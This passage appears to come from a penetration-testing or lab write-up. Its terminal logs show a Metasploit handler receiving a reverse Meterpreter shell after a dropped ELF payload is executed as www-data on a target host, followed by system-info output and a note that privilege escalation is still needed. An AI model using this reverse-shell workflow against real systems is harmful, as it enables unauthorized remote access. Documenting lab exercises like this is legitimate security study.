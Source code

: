 ```
[*] Started reverse TCP handler on 10.10.16.2:4444 

```

```
www-data@d1d6a9361621:/var/www$ chmod +x shell-x64.elf
chmod +x shell-x64.elf
www-data@d1d6a9361621:/var/www$ ./shell-x64.elf
./shell-x64.elf

```

```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.16.2:4444 
[*] Sending stage (3012548 bytes) to 10.0.22.175
[*] Meterpreter session 1 opened (10.10.16.2:4444 -> 10.0.22.175:33008 ) at 2023-05-14 17:15:02 +0530

meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Ubuntu 8.04 (Linux 5.4.0-1048-aws)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: www-data
```

还是需要提权。